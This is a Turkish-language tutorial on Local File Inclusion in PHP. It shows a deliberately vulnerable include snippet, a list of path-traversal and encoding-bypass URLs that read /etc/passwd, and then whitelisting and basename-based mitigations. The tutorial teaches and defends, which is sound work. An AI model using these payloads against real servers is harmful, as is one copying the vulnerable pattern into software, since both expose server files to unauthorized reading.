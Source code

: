# Local File Inclusion (LFI) Nedir
Local File Inclusion, web uygulamalarında kullanıcıdan alınan verilerin dosya yolu olarak işlenmesi sırasında ortaya çıkan bir zafiyetdir. Saldırgan, LFI sayesinde sunucudaki yerel dosyalara erişebilir ve hassas bilgileri elde edebilir.

Örnek olarak bir PHP uygulamasında şöyle bir kod olduğunu düşünelim:
```php
<?php
// index.php
$page = $_GET['page'];
include($page);
?>
```

Bu kod, URL’den gelen page parametresini doğrudan include ediyor. Örneğin:
```
http://example.com/index.php?page=about
```

about.php dosyasını sunucuya dahil eder. Ancak saldırgan parametreyi değiştirerek kritik sistem dosyalarına erişebilir:
```
http://example.com/index.php?page=../../../../etc/passwd
```

Bu durumda sunucu /etc/passwd dosyasının içeriğini döndürebilir.

# Bypass Teknikleri
## Double Encoding
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

## UTF-8 Encoding
```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

## Path Truncation
```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

## Filter Bypass
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

# LFI Açığını Önlemek
### Input Validation & Whitelisting
Kullanıcıdan gelen dosya adlarını direkt include etme. Sadece izin verilen dosyalar:
```php
$allowed_pages = ['about', 'contact', 'home'];
if(in_array($_GET['page'], $allowed_pages)) {
    include($_GET['page'] . '.php');
} else {
    echo "Sayfa bulunamadı";
}
```

## Dizin Sabitleme (Directory Traversal Protection)
Kullanıcı inputunu direkt dosya yolu olarak kullanmak yerine, sabit dizinle birleştir:
```php
include(__DIR__ . '/pages/' . basename($_GET['page']) . '.php');
```